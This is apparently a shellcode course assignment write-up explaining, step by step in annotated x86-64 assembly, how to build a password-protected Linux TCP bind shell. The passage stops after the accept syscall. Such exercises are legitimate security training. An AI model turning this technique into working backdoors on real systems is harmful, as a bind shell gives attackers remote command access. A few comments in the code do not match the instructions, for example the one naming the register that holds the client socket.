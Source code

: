 ## Assignment #1: Bind_Shell_TCP
---
---
### Introduction
---

Requirements for this assignment are to create a Shell_Bind_TCP shellcode that: 

  1. Listens on a specific port 
  2. Requires a password 
  3. If the password is correct, then Exec Shell is executed 
  4. Also, the NULL bytes (0x00) must be removed from the shellcode 

To build the shellcode use of the linux sockets is needed. Reading documentation, the following steps are required: 

  1. Create a socket 
  2. Bind the socket to a port 
  3. Start listenning for connections 
  4. Accept incoming connections 
  5. Ask, read, and validate the password 
  6. Duplicate `SDTIN`, `STDOUT` and `STDERR` to the socket descriptor 
  7. Execute /bin/sh for the incoming and validated conection 

In case the password is not correct, the shellcode will exit with a Segmentation Fault. The shellcode won’t care on how the program terminates. This makes sense as shellcode will be smaller in size and really does not matter how it exits. 

For Linux Sockets Programming, the following System calls are required on this assignment: 

```c
int socket(int domain, int type, int protocol); 
int bind(int sockfd, const struct sockaddr *addr, 
         socklen_t addrlen); 
int listen(int sockfd, int backlog); 
int accept(int sockfd, struct sockaddr *addr, 
           socklen_t *addrlen); 
int close(int sockfd); 
```
To duplicate the standard input, output and error, `dup2()` call will be used: 

```c
int dup2(int oldfd, int newfd); 
```

And to execute `/bin/sh`, will use the `execve()` call: 

```c
int execve(const char *filename, 
           char *const argv[], 
           char *const envp[]); 
```
### ASM Implementation
----

Will explain how we implement each step mentioned before into ASM, with the idea to make the code easy to understand. No enphasys has been put into removing NULLs and make the shellcode small (this is done later).

#### Create a Socket

```asm
; sock = socket(AF_INET, SOCK_STREAM, 0) 
mov rax, 41                 ; syscall number 
mov rdi, AF_INET            ; IPv4 
mov rsi, SOCK_STREAM        ; TCP connection 
mov rdx, 0                  ; IP Protocol 
syscall 
; Save the socket_id value in RDI for future use 
mov rdi, rax                ; value returned in RAX by syscall  
```
This is the first step required for sockets, open the socket. 
To execute the sys_socket system call the arguments will have to be placed in the corresponding registers: 

  - RAX <- 41 : Syscall number. 
  - RDI <- 2 : Domain parameter. AF_INET is for IPv4. 
  - RSI <-  1 : Type parameter. SOCK_STREAM means connection oriented TCP. 
  - RDX <- 0 : Protocol. IPPROTO_IP means it’s an IP protocol 

The syscall will return a file descriptor in RAX that is saved into RDI. This saves the socket_id for later use in the code

#### Bind the Created Socket to a Port

```asm
; Prepare (struct sockaddr *)&server 
;       RSP will point to the struct address 
xor rax, rax 
push rax                    ; bzero(&server.sin_zero, 8) 

mov dword [rsp - 4], INADDR_ANY 
mov word [rsp - 6], PORT 
mov word [rsp - 8], AF_INET 
sub rsp, 8                  ; Update RSP with right value 

; bind(sock, (struct sockaddr *)&server, sockaddr_len) 
;       RDI already has the sock_id 
mov rax, 49                 ; syscall number 
mov rsi, rsp                ; @ to (struct sockaddr * &server) 
mov rdx, 16                 ; length of the sockaddr struct 
syscall  
```
This part irequires two steps:

  - Create the `struct sockaddr` structure. Stack is used to store the values of the struct:
    - Values are placed on the stack
    - Stack Pointer (RSP) is updated with the new address
  - Call the `bind` syscall. Values for parameters are placed into the registers:
    - RAX: Syscall number (49)
    - RDI: Socket descriptor. Already has the value from previous point
    - RSI: Address of the struct. This value is in RSP
    - RDX: The lengh of the sockaddr struct. It's 16 bytes

#### Listen for Incoming Connections

```asm
; listen(sock, MAX_CLIENTS 
;       RDI already has the sock_id 
mov rax, 50          ; syscall number 
mov rsi, 2			     
syscall 
```
Values in the registers for the `listen` call parameters are:
  - RAX <- 50 : Syscall Number 
  - RDI : Already stores the socket descriptor 
  - RSI <- 2 : Is the backlog parameter 

#### Accept Incoming Connections

```asm
; client_sock = accept(sock_id, 
;                     (struct sockaddr *)&client, 
;                      &sockaddr_len) 
;       RDI already has the sock_id 

mov rax, 43                 ; syscall number 

; Reserve space on the stack for the struct (16 bytes) 
sub rsp, 16                 ; Reserved 16 bytes 
mov rsi, rsp                ; RSI <- @ sockaddr struct 
 
; Store in the Stack the sockaddr_len value 
mov byte [rsp - 1], 16      ; Stored the len (16 bytes) 

sub rsp, 1                  ; Update value for RSP 
mov rdx, rsp                ; RDX <- @sockaddr_len 
syscall 

; Store the client socket descripion returned by accept 
mov rbx, rax                 ; r9 <- client_sock 
```
`accept()`requires the following parameters:

- Socket descriptor, that's already stored in RDI
- Address of the struct by reference. Stack is used to store this struct reserving 16 bytes in stack. The data of this struct will be modified by the syscall and will access throught RSP register
- Address where the length of the struct is stored. This value is stored in the stack. RSP has this value

Registers get this following values for the parametrers:
- RAX <- 43 : Syscall Number 
- RDI : Already stores the socket descriptor 
- RSI <- RSP : Address of stack where struct is 
- RDX <- RSP+1 : Address of stack where the length of the struct is. Just one position more tan the struct itself 

This call returns a socket descriptor for the client, that is stored in R9 for future use.

#### Close the Parent socket Descriptor
